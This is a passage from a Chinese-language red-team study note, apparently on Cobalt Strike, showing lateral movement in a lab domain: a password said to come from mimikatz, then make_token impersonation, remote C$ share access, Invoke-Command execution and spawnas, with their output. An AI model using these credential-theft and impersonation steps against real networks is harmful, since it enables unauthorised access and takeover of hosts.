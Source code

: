 在运行命令之前，需要知道要获取令牌用户的密码，这里可以使用 mimikatz 进行获取，具体的方法可参考[《CS学习笔记 | 14、powerup提权的方法》](https://teamssix.com/year/200419-150600.html)这一节中的介绍。

这里还是和上文一样的环境，在一个 SYSTEM 会话下，获取 TEAMSSIX\administrator 账号令牌，使用 mimikatz 可以得知 TEAMSSIX\administrator 账号密码为 Test111!，接下来使用 `make_token` 命令。

```powershell
beacon> make_token TEAMSSIX\administrator Test111!
[*] Tasked beacon to create a token for TEAMSSIX\administrator
[+] host called home, sent: 53 bytes
[+] Impersonated NT AUTHORITY\SYSTEM

beacon> shell dir \\WIN-P2AASSD1AF1\C$
[*] Tasked beacon to run: dir \\WIN-P2AASSD1AF1\C$
[+] host called home, sent: 55 bytes
[+] received output:
 驱动器 \\WIN-P2AASSD1AF1\C$ 中的卷没有标签。
 卷的序列号是 F269-89A7
 \\WIN-P2AASSD1AF1\C$ 的目录
2020/07/16  21:24    <DIR>          Program Files
2020/07/16  21:52    <DIR>          Program Files (x86)
2020/07/17  23:00    <DIR>          Users
2020/07/26  00:55    <DIR>          Windows
               0 个文件      0 字节
               4 个目录 28,493,299,712 可用字节
               
beacon> powershell Invoke-Command -computer WIN-P2AASSD1AF1 -ScriptBlock {whoami}
[*] Tasked beacon to run: Invoke-Command -computer WIN-P2AASSD1AF1 -ScriptBlock {whoami}
[+] host called home, sent: 231 bytes
[+] received output:
teamssix\administrator
```

当密码输入错误时，执行上面的两个命令就会提示 `登录失败: 未知的用户名或错误密码。` 同样的使用 `rev2self` 可除去当前令牌，恢复原来的 SYSTEM 权限。

2、使用 spawn beacon 替代凭证

```powershell
spawnas DOMAIN\user password
```

